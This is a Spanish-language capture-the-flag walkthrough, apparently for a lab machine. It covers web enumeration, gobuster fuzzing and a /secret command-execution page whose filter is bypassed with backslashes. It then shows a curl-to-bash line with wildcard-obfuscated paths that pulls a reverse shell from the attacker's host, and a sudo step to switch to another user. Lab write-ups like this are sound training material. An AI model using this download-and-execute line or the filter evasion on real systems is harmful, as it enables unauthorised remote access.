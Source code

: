### Enumeración 80

![img](/assets/img/imagenes/Pasted image 20231118200242.png)
la pagina principal parace no tener nada importante

### fuzzing con gobuster

![img](/assets/img/imagenes/Pasted image 20231118201742.png)

### tenemos un monton de directorios pero el que nos llama mas la atencion es /secret asi que vamos a investigar
tenemos una pagina que al parecer nos permite ejecutar codigo
![img](/assets/img/imagenes/Pasted image 20231118202125.png)

### Al parecer somos el usuario www-data  pero no podemos ejecutar cualquier codigo ya que nos da errores
### despues de una larga busqueda por internet y probar un monton de cosas hemos consegido que interponiendo la barra slash invertido en cada letra de comando al parecer nos deja ejecutarlo. usaremos esto para intentar enviarnos una reverse shell 

![img](/assets/img/imagenes/Pasted image 20231118212931.png)

### hemos creado un archivo shell.php con una reverse shell y hemos creado un servidor en python para poder conpartirnos el archivo y paralelamente nos hemos puesto a la escucha para poder obtener la shel
```python
	curl 10.8.203.6:8000/shellencod.php | /b?n/ba?h
```

### somos el usuario www-data
hemos intentado hacer tratamiento de tty pero al parecer no podemos. tendremos que hacer movimiento lateral hacia otro usuario para intentarlo de nuevo
![img](/assets/img/imagenes/Pasted image 20231118214103.png)

### veamos los permisos SUID

![img](/assets/img/imagenes/Pasted image 20231119202137.png)
al parecer tenemos un script de apaar pero todos pueden ejecutarlo. asi que vamos a aprovechar esto para intentar cambiarlos al usuario apaar.

### aprovechamos que apaar puede ejecutar este script asi que lo intentaremos ejecutar como apaar con el siguiente comando
```python 
sudo -u apaar /home/apaar/.helpline.sh
```
![img](/assets/img/imagenes/Pasted image 20231119202426.png)
